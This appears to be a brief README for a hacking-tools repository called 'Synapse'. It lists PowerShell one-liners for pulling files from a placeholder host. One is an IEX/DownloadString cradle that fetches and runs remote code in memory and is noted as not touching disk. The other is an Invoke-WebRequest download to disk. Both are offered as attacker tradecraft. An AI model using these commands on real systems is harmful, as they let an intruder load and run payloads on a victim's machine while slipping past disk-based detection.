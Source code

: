 # Synapse
##Repo for hacking tools

#Get files
##IEX (Doesnt touch disk)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

##Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`